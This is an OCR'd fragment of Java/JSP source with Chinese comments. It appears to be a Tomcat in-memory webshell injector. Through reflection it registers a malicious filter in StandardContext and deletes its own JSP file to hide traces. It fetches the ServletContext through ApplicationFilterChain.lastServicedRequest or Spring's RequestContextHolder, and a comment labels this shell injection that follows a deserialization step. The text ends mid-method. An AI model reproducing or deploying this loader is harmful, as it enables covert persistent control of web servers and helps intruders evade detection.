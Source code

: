 ```jsp

                            standardContext.addFilterMapBefore(m);

                            Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
                            constructor.setAccessible(true);
                            FilterConfig filterConfig = (FilterConfig) constructor.newInstance(standardContext, filterDef);

                            Field fc = StandardContext.class.getDeclaredField("filterConfigs");
                            fc.setAccessible(true);
                            HashMap data = (HashMap) fc.get(standardContext);
                            data.put(filterName, filterConfig);
                            fc.set(standardContext, data);
                        }
                    }
                    //删除文件
                    new File(servletContext.getRealPath(filename)).delete();
                    return true;
                }
                else{
                    return false;
                }
            } catch (Exception e) {
                e.printStackTrace();
                return false;
            }
        }


        private ServletContext getServletContext()
                throws NoSuchFieldException, IllegalAccessException, ClassNotFoundException {
            ServletRequest servletRequest = null;
            /*shell注入，前提需要能拿到request、response等*/
            Class c = Class.forName("org.apache.catalina.core.ApplicationFilterChain");
            java.lang.reflect.Field f = c.getDeclaredField("lastServicedRequest");
            f.setAccessible(true);
            ThreadLocal threadLocal = (ThreadLocal) f.get(null);
            //不为空则意味着第一次反序列化的准备工作已成功
            if (threadLocal != null && threadLocal.get() != null) {
                servletRequest = (ServletRequest) threadLocal.get();
            }
            //如果不能获取到request，则换一种方式尝试获取

            //spring获取法1
            if (servletRequest == null) {
                try {
                    c = Class.forName("org.springframework.web.context.request.RequestContextHolder");
                    Method m = c.getMethod("getRequestAttributes");
                    Object o = m.invoke(null);
                    c = Class.forName("org.springframework.web.context.request.ServletRequestAttributes");
                    m = c.getMethod("getRequest");
                    servletRequest = (ServletRequest) m.invoke(o);
                } catch (Throwable t) {}
            }
            if (servletRequest != null)
                return servletRequest.getServletContext();

            //spring获取法2
            try {
                c = Class.forName("org.springframework.web.context.ContextLoader");
```